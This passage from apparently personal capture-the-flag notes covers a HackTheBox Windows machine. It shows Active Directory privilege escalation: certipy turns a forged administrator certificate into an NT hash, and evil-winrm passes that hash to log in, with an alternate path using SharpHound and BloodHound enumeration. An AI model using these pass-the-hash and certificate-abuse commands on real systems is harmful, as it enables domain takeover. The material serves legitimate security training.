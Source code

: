 *if this times out, just try it again*

![[HackTheBox/Windows/attachments/Pasted image 20250525220547.png]]
- got certificate with UPN of administrator and saved it to administrator.pfx

Use this administrator certificate to get the NT hash for administrator

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
```

![[HackTheBox/Windows/attachments/Pasted image 20250525220929.png]]

Use this hash to login with evil-winrm

```
evil-winrm -i 10.10.11.41 -u administrator -H <ADMINISTRATOR NT HASH>
```

![[HackTheBox/Windows/attachments/Pasted image 20250525221105.png]]
⭐got root⭐

-------

### Alternate Enumeration for priv esc 

Starting as management_svc user, use evil-winrm to login with their NT hash

```
evil-winrm -i 10.10.11.41 -u management_svc -H <management_svc nt hash>
```

![[HackTheBox/Windows/attachments/Pasted image 20250525221537.png]]

#### Running SharpHound

Upload SharpHound.exe to evil-winrm shell

![[HackTheBox/Windows/attachments/Pasted image 20250525221819.png]]

![[HackTheBox/Windows/attachments/Pasted image 20250525221833.png]]

Execute SharpHound.exe 

Download the Bloodhound.zip generated by SharpHound

![[HackTheBox/Windows/attachments/Pasted image 20250525222056.png]]

Upload the Bloodhound.zip to the bloodhound gui

#### Cypher Query to match all users that have CanPSRemote to computers

Query 
![[HackTheBox/Windows/attachments/Pasted image 20250525222410.png]]
